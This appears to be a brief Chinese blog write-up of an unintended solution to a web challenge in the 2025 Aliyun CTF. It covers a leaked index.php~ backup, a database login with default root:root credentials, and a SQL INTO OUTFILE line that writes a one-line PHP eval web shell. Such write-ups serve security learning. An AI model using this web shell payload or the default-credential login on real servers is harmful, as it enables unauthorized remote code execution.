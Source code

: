 ```yaml
---
title: 2025阿里云CTF-打卡OK单题非预期wp
published: 2025-02-26
description: '2025阿里CTF单题WriteUp'
image: 'https://haowallpaper.com/link/common/file/previewFileImg/15565314748092736'
tags: [CTF,WEB安全,WP]
category: 'CTF'
draft: false 
lang: ''
---
```

地址：[AliyunCTF](https://www.aliyunctf.com/)

完整WP：[先知社区](https://xz.aliyun.com/news/17029)

进去先扫目录，扫到一个`index.php~`，明显~泄露，直接看代码：
![image-20250226205242.png](image-20250226205242.png)
通过这段代码，我们能拿到这么几个文件：
```
/var/www/html/cache.php
/var/www/html/ok.php
/var/www/html/error.php
```
直接看ok.php

![image-20250226205329.png](image-20250226205329.png)

访问进去，是个数据库的登录页面，root:root直接秒了(主办方赛后说这是用了开源镜像导致的)

后面就很简单了，直接写马就行，绝对路径代码里也有

```
select "<?php eval($_POST[1]); ?>" into outfile "/var/www/html/1.php"
```

![image-20250226205820.png](image-20250226205820.png)
